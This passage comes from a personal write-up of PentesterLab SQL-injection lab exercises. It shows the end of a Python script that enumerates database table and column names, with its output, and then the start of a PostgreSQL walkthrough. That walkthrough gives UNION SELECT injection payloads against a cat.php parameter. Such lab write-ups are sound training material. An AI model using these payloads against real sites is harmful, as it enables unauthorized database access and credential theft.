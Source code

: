 b = r.read()
search = re.findall(names, b)

if search:
    print "[+] Table name : Column name"
    print "[+]", search
{% endhighlight %}

Which kicks back

```
$ python sqli1.py 
[+] Checking column and table names...
[+] Table name : Column name
[+] 'users:id</h2>', 'users:id" /></p>', 
    'users:login</h2>', 'users:login" /></p>', 
    'users:password</h2>', 'users:password" /></p>'
```

Now with all that information you can put it together and pull the admin credentials. I am not sure if that is exactly what the exercise is about, but I learned a lot and it was fun.

And in the end isn't that the real truth. The answer of course, is no.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ From SQL Injection to Shell: PostgreSQL Edition ]

The Bootcamp asks us to compelete this [exercise](https://pentesterlab.com/exercises/from_sqli_to_shell_pg_edition/) without reading the course. It's quite similar to the previous exercise [From SQLi to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell_pg_edition/).

So we can start by trying to detect where the SQLi vulnerabilty lies. We can navigate to `/cat.php?id=1` and test to perform some mathematical operations. We can see that `/cat.php?id=2-1` displays the same image as `/cat.php?id=1` so we can attempt to exploit this page.

We can use the `UNION SELECT` keyword to guess the number of columns. This is where it differs slightly from the first SQLi exercise. 

Adding integers into the query kicks back several errors, so we can try with strings instead. Trying different combinations until there are no errors we get `/cat.php?id=1 UNION SELECT 1, 'a', 'a', 1`.

We can then test each column to see which one is displayed in the browser. We get a result with `cat.php?id=1 UNION SELECT 1,current_user,'a',1`.
